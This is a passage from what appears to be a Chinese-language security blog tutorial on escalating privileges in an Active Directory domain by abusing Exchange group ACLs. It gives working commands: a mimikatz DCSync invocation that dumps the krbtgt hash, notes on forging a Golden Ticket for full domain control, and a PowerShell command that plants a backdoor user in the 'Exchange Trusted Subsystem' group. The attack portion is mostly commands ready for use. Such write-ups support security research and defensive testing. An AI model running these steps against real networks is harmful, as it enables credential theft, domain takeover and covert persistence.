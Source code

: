 接下来，在另一台域内主机上完成所有提权的操作

#### 1.登录用户testa

cmd：

```
runas /user:test\testa cmd
```

如果在测试过程中，第一次将测试用户testa添加到`Exchange Trusted Subsystem`中，那么用户testa需要重新登录才能继承WriteDACL权限

查看用户testa所在的组：

```
whoami /groups
```

发现用户testa成功加入`Exchange Trusted Subsystem`组，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-9-22/3-2.png)

#### 2.使用mimikatz的DCSync功能导出用户krbtgt的hash

cmd：

```
mimikatz.exe privilege::debug "lsadump::dcsync /domain:test.com /user:krbtgt /csv" exit
```

成功导出用户krbtgt的hash，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-9-22/3-3.png)

接下来可以使用域用户krbtgt的hash制作Golden Ticket，登录域控制器，获得对整个域的控制权限

提权成功

经过多次测试，得出以下结论：

如果获得了以下三个组内任意用户的权限，都能够利用DCSync导出域内所有用户hash

组名如下：

- Exchange Trusted Subsystem
- Exchange Windows Permission
- Organization Management

## 0x03 建立提权后门的方法
---

如果获得了整个域的控制权限，可以利用Exchange中的ACL作为域提权的后门

### 方法1：直接在Exchange的三个组内添加后门用户

这里以`Exchange Trusted Subsystem`为例

Powershell命令如下：

```
Import-Module ActiveDirectory
Add-ADGroupMember -Identity "Exchange Trusted Subsystem" -Members testa
```
